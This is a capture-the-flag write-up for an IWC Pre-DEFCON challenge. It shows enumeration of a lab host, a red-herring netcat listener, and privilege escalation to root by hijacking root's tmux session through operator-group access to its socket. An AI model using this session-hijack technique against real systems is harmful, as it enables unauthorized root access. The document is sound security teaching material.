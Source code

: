 Healthy Detachment
===

IWC Pre-DEFCON Challenge

By DisplayGFX

Yet another challenge where we ssh into a user. This time it is `admin`

## Initial enumeration

Lets look at the files in the home directory.

```bash
admin@node-cafe:~$ ls -la
total 24
drwxr-x--- 2 admin admin 4096 Jul 31 17:33 .
drwxr-xr-x 1 root  root  4096 Jul 31 17:33 ..
-rw-r--r-- 1 admin admin  220 Jul 31 17:33 .bash_logout
-rw-r--r-- 1 admin admin 3771 Jul 31 17:33 .bashrc
-rw-r--r-- 1 root  root    21 Jul 31 17:33 .history
-rw-r--r-- 1 admin admin  807 Jul 31 17:33 .profile
```

Well, lets read what the files contain. To save space on this document, every other file contains not much. But `.history` contains this.
# A Red Herring

```bash
admin@node-cafe:~$ cat .history 
r00k wuz h3r3
man nc
```

`nc` is a classic tool, netcat. This basically gives the hint to look at the open ports. A fun fact while going through this challenge: you dont need `ps` to look at the open ports. All you need to do is to read `/proc/net/tcp`.
```bash
admin@node-cafe:~$ cat /proc/net/tcp
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 0100007F:115C 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 5483547 1 0000000000000000 100 0 0 10 0
```

The addresses are encoded in hex, but `115c` is port 4444 in decimal, and `0100007F` will (when split among bytes) result in `1 0 0 127`. the address of localhost in little endian order.

Lets connect to it!

```bash
admin@node-cafe:~$ nc localhost 4444
Thank you, User! But your backdoor is in another castle!
dang
admin@node-cafe:~$ 
```

Ah, a red herring.

## The real solution: Tmux

Well, clearly it must be running on the machine, so lets take a look at whats active.

```bash
admin@node-cafe:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2800  1664 ?        Ss   04:08   0:00 /bin/sh -c /root/entry.sh
root           7  0.0  0.0   4324  3328 ?        S    04:08   0:00 /bin/bash /root/entry.sh
root          10  0.0  0.0   9788  4160 ?        Ss   04:08   0:00 tmux new -d
root          11  0.0  0.0   4588  3840 pts/0    Ss+  04:08   0:00 -bash
root          17  0.0  0.0  15480 10752 ?        S    04:08   0:00 python3 /root/ganon.py localhost 4444
root          21  0.0  0.0   2728  1408 ?        S    04:08   0:00 tail -f /dev/null
admin         22  0.0  0.0   4588  3968 pts/1    Ss   04:08   0:00 /bin/bash
admin         31  0.0  0.0   7888  3968 pts/1    R+   04:09   0:00 ps aux
```

There is the port that is open. But wait, I dont have any tmux sessions running! Whats going on here?

Well, if you start your own tmux session, you can see what is happening in `/tmp`.

```bash
admin@node-cafe:~$ ls -la /tmp
total 16
drwxrwxrwt 1 root  root     4096 Aug  1 04:34 .
drwxr-xr-x 1 root  root     4096 Aug  1 04:34 ..
drwxrwx--- 2 root  operator 4096 Aug  1 04:34 tmux-0
admin@node-cafe:~$ tmux
[in the tmux session]
admin@node-cafe:~$ ls -la /tmp
total 16
drwxrwxrwt 1 root  root     4096 Aug  1 04:34 .
drwxr-xr-x 1 root  root     4096 Aug  1 04:34 ..
drwxrwx--- 2 root  operator 4096 Aug  1 04:34 tmux-0
drwx------ 2 admin admin    4096 Aug  1 04:40 tmux-1002
[exit tmux]
```

There must be a session. If you run `env`, you can see how it is handled in a tmux session itself.

```bash
admin@node-cafe:~$ env
SHELL=/bin/bash
TERM_PROGRAM_VERSION=3.4
TMUX=/tmp/tmux-1002/default,32,0
HOSTNAME=node-cafe
env_priv_user=admin
PWD=/home/admin
HOME=/home/admin
LS_COLORS=....
TERM=tmux-256color
TMUX_PANE=%0
env_low_user=dev
SHLVL=2
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
TERM_PROGRAM=tmux
_=/usr/bin/env
```

Pay attention to the `TMUX` variable.  There is the path, and if we check with `ps aux`, that is the process tmux is running on. We dont need to concern ourselves with that, we can just set `TMUX` to the open session, and maybe we can use something called `attach-session`

> attach-session \[-dErx] \[-c working-directory] \[-f flags] \[-t target-session]
                     (alias: attach)
			If run from outside tmux, create a new client in the current terminal and attach it to target-session. If used from inside, switch the current client.  If -d is specified, any other clients attached to the session are detached.  If -x is given,  send  SIGHUP to the parent process of the client as well as detaching the client, typically causing it to exit.  -f sets a comma-separated list of client flags.

This should allow us to connect to the ongoing session! Why? Because we have permissions, as being part of the operators group.

```bash
admin@node-cafe:~$ groups
admin operator users
```

## Exploit
```
admin@node-cafe:~$ export TMUX=/tmp/tmux-0/default
admin@node-cafe:~$ tmux attach-session
[tmux session]
root@node-cafe:/# 
root@node-cafe:/# cat /flag.txt 
```

And that gets us the flag!